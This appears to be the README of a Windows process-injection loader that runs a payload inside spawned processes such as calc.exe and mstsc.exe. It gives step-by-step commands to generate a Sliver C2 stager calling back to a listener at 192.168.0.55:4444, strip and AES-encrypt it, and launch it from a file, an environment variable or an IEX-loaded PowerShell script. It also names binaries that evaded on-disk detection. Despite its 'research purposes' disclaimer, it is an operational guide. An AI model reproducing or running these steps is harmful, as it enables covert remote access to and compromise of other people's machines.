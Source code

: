 This is all for research purposes only. Tested in an isolated lab environment.

AddressOfEntryPoint points to payload address within the created process (calc.exe by default; must change in source code and recompile).

Target windows binaries that didn't get flagged on disk:
------------------
C:\\Windows\\System32\\mstsc.exe
C:\\Windows\\System32\\calc.exe

Payload requirement:
-----
Payload must be stager from sliver. .Example:
```
generate stager --lhost 192.168.0.55 --lport 4444 --os windows -a amd64 -f csharp --save /path/hexfile.txt
```

Strip the output file so it looks like an array; no new line characters, no spaces:
```
cat hexfile.txt | tr -d ' ' | tr -d '\n' | sed -r 's/^.*\{//' | sed -r 's/\};$//'
```

Then the payload must be formated with AES_Encrypt_Byte_Buffer.exe. Outputs b64Output.txt.

I imagine there's some size restrictions here if using the env variable command below.

Usage:
---
Load from a file:
```
.\RunRCX.exe .\b64Output.txt 1
```

Load from variable:
```
.\RunRCX.exe $base64cdoe 2
```

Also can run getpayload.ps1 with IEX.
